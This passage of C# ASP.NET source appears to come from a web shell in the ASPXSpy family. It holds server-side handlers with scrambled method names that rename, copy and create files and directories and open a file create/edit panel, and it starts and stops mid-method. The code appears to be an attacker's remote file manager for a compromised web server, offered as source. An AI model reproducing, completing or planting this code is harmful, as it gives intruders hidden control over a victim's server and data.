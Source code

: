 }
krIR(AXSbb.Value);
}
public void Tlvz(string sfile,string dfile)
{
try
{
File.Move(sfile,dfile);
xseuB("File Renamed Success !");
}
catch(Exception error)
{
xseuB(error.Message);
}
krIR(AXSbb.Value);
}
public void YByN(string spath,string dpath)
{
try
{
File.Copy(spath,dpath);
xseuB("File Copy Success !");
}
catch(Exception error)
{
xseuB(error.Message);
}
krIR(AXSbb.Value);
}
public void stNPw(string path)
{
try
{
Directory.CreateDirectory(AXSbb.Value+path);
xseuB("Directory created success !");
}
catch(Exception error)
{
xseuB(error.Message);
}
krIR(AXSbb.Value);
}
public void gLKc(string path)
{
if(Request["__EVENTTARGET"]=="Bin_Editfile" || Request["__EVENTTARGET"]=="Bin_Createfile")
{
foreach(ListItem item in NdCX.Items)
{
if(item.Selected=true)
{
item.Selected=false;
}
}
}
Bin_H2_Title.InnerHtml="Create/ Edit File >>";
WICxe();
vrFA.Visible=true;
if(path.IndexOf(":")< 0)
{
Sqon.Value=AXSbb.Value+path;
}
else
{
Sqon.Value=path;